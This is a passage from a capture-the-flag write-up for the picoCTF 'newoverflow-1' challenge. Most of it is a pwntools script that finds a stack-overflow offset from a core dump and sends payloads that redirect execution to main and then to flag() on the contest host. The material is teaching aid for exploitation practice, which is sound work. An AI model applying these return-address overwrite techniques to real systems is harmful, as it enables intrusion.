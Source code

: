 This value is 16-byte aligned, so the program crashes. Looks like a compiler optimization is standing between us and the flag.

The solution was to call `main` again via the original payload, and then call `flag` as intended. Lucky for us, the stack was correctly aligned for such a call stack.

A `pwntools` script to automate the process:

```python
# First, generate a pwntools template using:
# pwn template --host 2019shell1.picoctf.com --user dvdalt --path /problems/newoverflow-1_6_9968801986a228beb88aaad605c8d51a/vuln

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

import os

if shell is not None:
    shell.set_working_directory(os.path.dirname(remote_path))

def send_payload(proc, payload):
    proc.sendlineafter("Welcome to 64-bit. Give me a string that gets you the flag: ", payload)


def get_overflow_offset():
    # It's problematic to create a core dump on an NTFS file system,
    # so reconfigure core dumps to be created elsewhere
    os.system("echo ~/core/core_dump > /proc/sys/kernel/core_pattern")
    os.system("rm core.* > /dev/null")
    proc = process(exe.path)
    payload = cyclic(200, n = exe.bytes)
    send_payload(proc, payload)
    proc.wait()
    offset = cyclic_find(proc.corefile.fault_addr, n = exe.bytes )
    log.info("Overflow offset: {} ({}-byte architecture)".format(offset, exe.bytes))
    return offset


overflow_offset = get_overflow_offset()
log.info("flag() address: {}".format(hex(exe.symbols["flag"])))

io = start()
payload = fit({overflow_offset: exe.symbols["main"]}, filler = 'B')
log.info("Sending payload: \n{}".format(hexdump(payload)))

send_payload(io, payload)

payload = fit({overflow_offset: exe.symbols["flag"]}, filler = 'B')
log.info("Sending payload: \n{}".format(hexdump(payload)))

send_payload(io, payload)

print io.recvall()
```
